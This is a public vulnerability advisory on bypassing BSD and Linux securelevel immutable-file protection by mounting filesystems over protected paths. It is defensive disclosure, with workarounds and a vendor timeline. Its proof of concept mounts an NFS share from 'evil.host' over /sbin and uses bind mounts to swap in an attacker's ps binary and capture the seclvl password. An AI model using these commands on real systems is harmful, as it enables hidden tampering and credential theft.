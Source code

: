 === Content from www.redteam-pentesting.de_f9a74f97_20250125_061626.html ===
Advisory: BSD Securelevels: Circumventing protection of files flagged immutable
By mounting an arbitrary filesystem, it is possible to mask files
flagged immutable with any user-defined files.
### Details
- Product:
- FreeBSD up to 6.0-STABLE and 7.0-CURRENT
- OpenBSD up to 3.8
- DragonFly up to 1.2
- Linux vanilla kernel up to 2.6.18.5
- Vulnerability Type: Filesystem privilege circumvention
- Security-Risk: medium
- Advisory-URL: `https://www.redteam-pentesting.de/advisories/rt-sa-2005-015`
- Advisory-Status: public
- CVE: CVE-2005-4351
- CVE-URL: `https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-4351`
### Introduction
BSD-Securelevels try to harden the system by restricting certain
functions. The FreeBSD [manpage](http://www.freebsd.org/cgi/man.cgi?query=securelevel) states: "The kernel runs with five
different levels of security. Any super-user process can raise the
security level, but no process can lower it."
While running a securelevel of one or greater, files having the
immutable flag cannot be changed anymore. Although files are protected
from being changed permanently, masking them at runtime is still
possible.
### More Details
While the behaviour described above seems to provide effective
protection against changing immutable files physically, the protection
can be circumvented at runtime. By mounting another filesystem,
immutable files can be masked. Masking means placing an arbitrary file
at the location of an immutable file, without changing the immutable
file itself.
Every access to the masked file through its path in the filesystem will
result in access to the masking file. This can be achieved by mounting an
NFS or any other available filesystem on the directory where the
immutable file resides. At runtime an attacker could replace arbitrary
files. Although it is not possible to change the contents of immutable
files permanently, the impact is similar.
With Linux an attacker can even intercept the password input to lower
the security level masking /sys/seclvl/passwd.
After searching mailinglist archives, we discovered that this problem
was already discussed (, , ) before, but with no real result. The
current behaviour is not good under security considerations. Especially
bad is that it still seems to be a common mispractise for administrators
to rely on securelevels to make it impossible for an attacker to change
the running system. Using the described technique it would be possible
to create a rootkit utilizing mount.
### Proof of Concept
The following example uses an NFS share but any other usable filesystem
also works.
```
root@# ls -lo /sbin
total 4884
-r-xr-xr-x 1 root wheel schg 7480 Nov 23 14:04 adjkerntz
-r-xr-xr-x 1 root wheel schg 13968 Nov 23 14:04 atacontrol
-r-xr-xr-x 1 root wheel schg 39828 Nov 23 14:04 atm
-r-xr-xr-x 1 root wheel schg 51772 Nov 23 14:04 atmconfig
-r-xr-xr-x 1 root wheel schg 7292 Nov 23 14:04 badsect
-r-xr-xr-x 2 root wheel schg 29336 Nov 23 14:04 bsdlabel
-r-xr-xr-x 1 root wheel schg 55972 Nov 23 14:04 camcontrol
-r-xr-xr-x 1 root wheel schg 10124 Nov 23 14:04 ccdconfig
-r-xr-xr-x 1 root wheel schg 5424 Nov 23 14:04 clri
[...]
root@# mount -t nfs evil.host:/exported /sbin
root@# ls -lo /sbin
total 4884
-r-xr-xr-x 1 root wheel - 8451 Nov 22 15:07 adjkerntz
-r-xr-xr-x 1 root wheel - 13485 Nov 22 15:07 atacontrol
-r-xr-xr-x 1 root wheel - 30957 Nov 22 15:07 atm
-r-xr-xr-x 1 root wheel - 51498 Nov 22 15:07 atmconfig
-r-xr-xr-x 1 root wheel - 7435 Nov 22 15:07 badsect
-r-xr-xr-x 2 root wheel - 24385 Nov 22 15:07 bsdlabel
-r-xr-xr-x 1 root wheel - 58591 Nov 22 15:07 camcontrol
-r-xr-xr-x 1 root wheel - 11585 Nov 22 15:07 ccdconfig
-r-xr-xr-x 1 root wheel - 6581 Nov 22 15:07 clri
[...]
```
With Linux an attacker does not even have to mount a complete filesystem
but mount just a single file over an immutable file by using the
following command:
```
root@# mount --bind /tmp/attacker\_ps /bin/ps
```
To intercept the password of seclvl with Linux, an attacker can use the
following:
```
root@# mount --bind /tmp/getpass /sys/seclvl/passwd
```
Any attempt to lower the securitylevel by an admin will store the password
in /tmp/getpass.
### Workaround
A possible workaround is to disable mounting of filesystems completely
after booting. This can be achieved through hardening kernel extensions
like OpenBSD's systrace (), FreeBSD's MAC security extensions () or
SELinux (). Administrators should furthermore not rely on securelevels
for protecting files in case of an attack.
### Fix
No fix is available at this time. The implementation of securelevels on
NetBSD was found to be not vulnerable to this attack.
No fix will be released for OpenBSD. To quote Theo de Raadt:
"Sorry, we are going to change nothing. Securelevels are useless."
FreeBSD is still discussing the issue and no further response from the
Linux maintainer has been received yet.
### Security Risk
This kind of attack provides a medium security risk. An attacker is able
to hide himself effectively on a compromised system by using the methods
described above.
### Discussion
While protecting data effectively against permanent tampering, the term
"Securelevels" should not contain the word secure. Securelevels do not
protect against system compromise and provide only limited security. To
restrict access to a system a more secure and flexible approach like
OpenBSD's systrace (), FreeBSD's MAC Framework () or SELinux () should
be used.
### History
- 2005-11-05 Problem discovered while testing a product of iPisec Ltd.
- 2005-11-29 Discussed the issue with iPisec management and technicians
- 2005-12-02 Contacted the maintainer of BSD-Securelevels on Linux
- 2005-12-02 Response from the maintainer of BSD-Securelevels on Linux, he
wants to do what \\*BSD will be doing
- 2005-12-04 Contacted the maintainers of different BSD derivates
- 2005-12-05 Response from the FreeBSD Security Team - problem under
discussion
- 2005-12-06 Response from the OpenBSD - problem will not be fixed
- 2005-12-15 Forwarded the \\*BSD responses to the Linux maintainer
- 2006-01-05 No further response from the Linux maintainer
- 2006-01-09 Public release
- 2006-12-04 Updating affected Linux vanilla kernel: seclvl was removed
in 2.6.19
- 2009-05-08 Updated Advisory URL
### RedTeam
RedTeam offers interested business parties penetration tests to validate
their security. Doing security research RedTeam likes to enhance the
common knowledgebase in security-related areas. More information about
RedTeam can be found at .

